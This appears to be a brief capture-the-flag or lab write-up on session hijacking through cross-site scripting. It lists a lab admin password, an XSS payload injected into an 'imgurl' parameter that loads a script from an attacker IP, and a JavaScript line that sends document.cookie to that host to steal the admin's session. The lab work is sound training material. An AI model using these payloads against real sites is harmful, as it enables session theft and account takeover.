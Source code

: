 ```
Username: admin | Password: p1zd0nt57341myp455
```

# Session Hijacking

#### Questions
+ 2  Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.

Manual test until found payload

![](images/13.png)

![](images/12.png)

Parameter: `imgurl`

Payload tested:

```html
"><script src=http://10.10.15.127></script>
```

Now it's easily to get  the cookie:
Put this in the `payload.js`
```javascript
new Image().src='http://10.10.15.127/index.php?c='+document.cookie;
```
